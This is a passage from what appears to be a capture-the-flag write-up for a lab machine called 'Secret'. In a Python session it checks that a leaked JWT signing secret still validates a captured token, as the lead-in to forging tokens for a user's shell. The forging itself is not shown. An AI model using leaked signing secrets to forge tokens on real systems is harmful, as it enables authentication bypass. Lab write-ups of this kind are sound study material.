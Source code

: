 ## Shell as dasith

### Forge JWT

#### Test Token

I got a JWT earlier, so I can use to test if this is still the secret in
use on Secret. I like to use Python for this kind of thing, dropping
into a Python shell by running `python3`. I'll need PyJWT installed as
well (`pip3 install pyjwt`).

First I'll import the package and save my token in a variable named
`token` and the secret in a variable named `secret` to make them easier
to work with:



    >>> import jwt
    >>> token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTc4MjUzMzJjMmJhYjA0NDVjNDg0NjIiLCJuYW1lIjoiMHhkZjB4ZGYiLCJlbWFpbCI6ImRmZGZkZmRmQHNlY3JldC5jb20iLCJpYXQiOjE2MzUyNjM4Mjh9.rMfMsdYkfSbl4hr1RJFwY3qWfrA3LSWVlzUON_9EW_A'
    >>> secret = 'gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE'



Now the `jwt.decode` function will decode the token if the secret is
right (if this errors out saying an "algorithms" value is required, see
[update below](#note-on-pyjwt-versions)):



    >>> jwt.decode(token, secret)
    {'_id': '617825332c2bab0445c48462', 'name': '0xdf0xdf', 'email': 'dfdfdfdf@secret.com', 'iat': 1635263828}



To show this only works if the secret is correct, I'll change the last
character of `secret` from "M" to "m" and try again. It throws an
`InvalidSignatureError` exception:



    >>> jwt.decode(token, secret[:-1]+'m')
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jwt.py", line 119, in decode
        decoded = self.decode_complete(jwt, key, algorithms, options, **kwargs)
      File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jwt.py", line 90, in decode_complete
        decoded = api_jws.decode_complete(
      File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jws.py", line 149, in decode_complete
        self._verify_signature(signing_input, header, signature, key, algorithms)
      File "/home/oxdf/.local/lib/python3.9/site-packages/jwt/api_jws.py", line 236, in _verify_signature
        raise InvalidSignatureError("Signature verification failed")
    jwt.exceptions.InvalidSignatureError: Signature verification failed

